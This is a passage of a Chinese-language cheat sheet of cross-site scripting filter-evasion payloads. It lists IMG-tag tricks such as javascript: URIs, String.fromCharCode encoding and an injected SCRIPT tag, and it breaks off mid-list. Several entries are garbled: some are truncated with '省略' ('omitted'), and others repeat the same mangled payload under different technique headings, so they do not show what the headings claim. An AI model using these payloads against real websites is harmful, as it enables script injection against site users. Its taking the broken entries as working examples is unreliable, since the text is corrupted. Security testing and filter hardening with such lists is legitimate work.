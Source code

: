   ```
  <IMG SRC=javascript:alert(“XSS”)>
  ```

- **修正缺陷IMG标签**，示例如下：

  ```
  <IMG “”"><SCRIPT>alert(“XSS”)</SCRIPT>”>
  ```

- **formCharCode标签**，示例如下：

  ```
  <IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
  ```

- **UTF-8的Unicode编码**，示例如下：

  ```
  <IMG SRC=jav..省略..S')>
  ```

- **7位的UTF-8的Unicode编码是没有分号的**，示例如下：

  ```
  <IMG SRC=jav..省略..S')>
  ```

- **十六进制编码也是没有分号**，示例如下：

  ```
  <IMG SRC=\'#\'" /span>
  ```

- **嵌入式标签,将Javascript分开**，示例如下：

  ```
  <IMG SRC=\'#\'" ascript:alert(‘XSS’);”>
  ```

- **嵌入式编码标签,将Javascript分开**，示例如下：

  ```
  <IMG SRC=\'#\'" ascript:alert(‘XSS’);”>
  ```

- **嵌入式换行符**，示例如下：

  ```
  <IMG SRC=\'#\'" ascript:alert(‘XSS’);”>
  ```

- **嵌入式回车**，示例如下：

  ```
  <IMG SRC=\'#\'" ascript:alert(‘XSS’);”>
  ```

- **嵌入式多行注入JavaScript,这是XSS极端的例子**，示例如下：

  ```
  <IMG SRC=\'#\'" /span>
  ```

- **解决限制字符(要求同页面)**，示例如下：
